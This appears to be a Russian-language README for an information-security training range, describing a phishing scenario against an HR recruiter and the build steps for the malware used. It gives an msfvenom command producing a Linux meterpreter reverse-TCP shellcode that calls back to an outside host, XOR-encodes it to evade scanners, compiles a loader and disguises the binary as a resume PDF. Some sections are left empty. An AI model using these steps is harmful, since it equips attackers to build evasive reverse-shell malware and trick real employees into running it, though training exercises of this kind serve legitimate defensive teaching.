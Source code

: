# cyberpolygon
cyberpolygon for information security training


### Для работы стенда необходимо ввести след команды

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

!!!!!!!!!!!!! 

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 

Скопируем char buf[] и вставим это в программу encoder_beautiful.c

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c

Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:



Запустим:


Запустим:
